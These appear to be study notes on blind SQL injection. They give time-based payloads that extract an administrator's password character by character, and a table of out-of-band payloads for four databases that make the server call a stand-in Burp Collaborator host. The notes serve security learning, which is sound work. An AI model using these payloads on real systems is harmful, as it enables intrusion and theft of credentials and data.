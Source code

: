 By this we can extract each character at a time:

`'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

Payload: %3B in SQL is decoded to ";", which is make a new query:

```sql
%3B
SELECT CASE 
    WHEN (SUBSTRING((SELECT password FROM users WHERE username='administrator'), 1, 1) < 'd') 
    THEN pg_sleep(10) 
    ELSE NULL 
END--
```

> %3BSELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username='administrator'), 1, 1) = 'd') THEN pg_sleep(3) ELSE NULL END--

Then use Burp Intruder to extract each position.

### Exploiting blind SQL injection using out-of-band (OAST) techniques

#### Not exfiltrate data

| Database       | Technique                                                                                                                                                                          |
| -------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Oracle**     | (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:                                    |
|                | `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual` |
|                | The following technique works on fully patched Oracle installations, but requires elevated privileges:                                                                             |
|                | `SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')`                                                                                                                |
| **Microsoft**  | `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`                                                                                                                        |
| **PostgreSQL** | `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`                                                                                                               |
| **MySQL**      | The following techniques work on Windows only:                                                                                                                                     |
|                | `LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`                                                                                                                                  |
|                | `SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\\a'`                                                                                                                     |




An application might carry out the same SQL query as the previous example but do it asynchronously. The application continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie. The query is still vulnerable to SQL injection, but none of the techniques described so far will work. The application's response doesn't depend on the query returning any data, a database error occurring, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. These can be triggered based on an injected condition to infer information one piece at a time. More usefully, data can be exfiltrated directly within the network interaction.
